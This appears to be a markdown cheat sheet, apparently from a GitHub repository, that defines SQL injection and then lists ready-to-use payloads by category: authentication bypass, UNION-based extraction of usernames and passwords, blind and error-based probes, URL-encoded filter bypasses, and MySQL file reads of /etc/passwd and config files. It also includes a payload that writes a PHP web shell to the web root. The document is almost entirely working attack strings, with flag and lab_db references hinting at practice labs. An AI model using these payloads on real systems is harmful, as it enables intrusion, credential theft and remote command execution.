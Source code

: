 

## What is SQL Injection ? 

- **SQL Injection is a web vulnerability where an attacker ==injects malicious SQL code into an application’s database query via user input== (e.g., a URL parameter, form field, or cookie).**

- *If the app doesn’t sanitize inputs, the injected code can manipulate the query to extract data, bypass authentication, or even execute commands.


## SQL Injection Cheat sheet : 

https://portswigger.net/web-security/sql-injection/cheat-sheet

## List of payloads of SQLi : 


1. **Classic SQLi Payloads** : 

	- `1 OR 1=1`
	- `1 OR '1'='1`
	- `1' OR '1'='1`
	- `1" OR "1"="1`
	- `1 --`
	- `1 #`
	- `1/*`
	- `1' --`
	- `1' #`
	- `1'/*`
	
2. **Authentication Bypass Payloads :  

	- `admin' OR 1=1 --
	- `admin' OR '1'='1' --
	- `admin' OR 1=1#
	- `admin' OR '1'='1'#
	- `admin' OR 1=1/*
	- `jeremy' OR 1=1#
	- `jeremy' OR '1'='1' --
	- `' OR ''='
	- `' OR '1'='1
	- `admin" OR "1"="1 --
	- `") OR ("1"="1
	- `') OR ('1'='1

3. **UNION-Based Payloads : 

	- `1 UNION SELECT 1,2
	- `1 UNION SELECT 1,2,3
	- `1 UNION SELECT 1,@@version,3
	- `1 UNION SELECT 1,database(),3
	- `1 UNION SELECT 1,schema_name,3 FROM information_schema.schemata
	- `1 UNION SELECT 1,table_name,3 FROM information_schema.tables
	- `1 UNION SELECT 1,table_name,3 FROM information_schema.tables WHERE table_schema='lab_db'
	- `1 UNION SELECT 1,column_name,3 FROM information_schema.columns WHERE table_name='users'
	- `1 UNION SELECT 1,username,password FROM users
	- `1 UNION SELECT 1,flag,3 FROM flags
	- `1 UNION SELECT 1,secret,3 FROM secrets
	- `1 UNION SELECT 1,concat(username,':',password),3 FROM users
	- `1 UNION SELECT 1,2,3 (for invalid IDs)
	- `1 UNION ALL SELECT 1,2,3

4. **Blind Boolean-Based Payloads : 

	- `1 AND 1=1
	- `1 AND 1=2
	- `1 AND (SELECT 1 FROM users WHERE username='admin')=1
	- `1 AND (SELECT 1 FROM users WHERE username='jeremy')=1
	- `1 AND (SELECT count(*) FROM users)>0
	- `1 AND (SELECT length(database()))=7
	- `1 AND ascii(substring((SELECT database()),1,1))=108 (extracts l from lab_db)

5. **File Operation Payloads (MySQL) : 

	- `1 UNION SELECT 1,LOAD_FILE('/etc/passwd'),3
	- `1 UNION SELECT 1,LOAD_FILE('/var/www/html/config.php'),3
	- `1 UNION SELECT 1,LOAD_FILE('/var/www/html/flag.txt'),3
	- `1 UNION SELECT 1,'<?php system($_GET["cmd"]); ?>',3 INTO OUTFILE '/var/www/html/shell.php'
	- `1 UNION SELECT 1,@@secure_file_priv,3 (check file access restrictions)

6. **Encoded Payloads (Bypass Filters) : 

	- `1%27%20OR%20%271%27=%271 (' OR '1'='1)
	- `%27%20OR%201=1%23 (' OR 1=1#)
	- `1%20UNION%20SELECT%201%2C@@version%2C3
		-  `1%20AND%20IF%28ascii%28substring%28%28SELECT%20database%28%29%29%2C1%2C1%29%29=108%2CSLEEP%285%29%2C0%29

7. **Miscellaneous Payloads : 

	- `1 ORDER BY 1 (test column count)
	- `1 ORDER BY 2
	- `1 ORDER BY 3
	- `1 UNION SELECT 1,version(),3
	- `1 AND (SELECT 1)=1
	- `1' AND '1'='1
	- `1" AND "1"="1
	- `1 OR true
	- `1 AND false

8. **Error-Based Payloads (MySQL) : 

	- `1 AND extractvalue(1,concat(0x7e,(SELECT @@version)))
	- `1 AND (SELECT 1 FROM (SELECT count(*),concat((SELECT database()),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a)
	- `1' AND extractvalue(1,concat(0x7e,(SELECT username FROM users LIMIT 0,1)))#